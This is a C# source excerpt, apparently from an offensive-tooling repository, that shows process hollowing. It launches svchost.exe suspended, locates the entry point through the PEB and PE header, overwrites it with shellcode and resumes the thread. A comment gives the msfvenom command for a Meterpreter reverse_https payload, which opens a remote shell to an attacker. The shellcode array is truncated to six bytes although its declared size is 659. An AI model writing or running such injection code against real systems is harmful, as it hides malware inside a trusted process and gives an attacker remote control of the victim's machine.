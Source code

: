 ```csharp
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }
        
        static void Main(string[] args)
        {
	    // Start 'svchost.exe' in a suspended state
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);        
            
            // Get Process Environment Block (PEB) memory address of suspended process (offset 0x10 from base image)
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            // Parsing the PE header to locate the EntryPoint
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
	    // The ptrToImageBase variable contains a pointer to the image base of svchost.exe in the suspended process. 
	    IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
	    // Fetch the address of the code base by reading eight bytes of memory
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
			
	    // Overwriting the EntryPoint of svchost.exe with shellcode
	    // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f csharp
            byte[] buf = new byte[659] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8 };
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
	    // Let the suspended thread of a remote process continue its execution to execute our shellcode
            ResumeThread(pi.hThread);
        }
```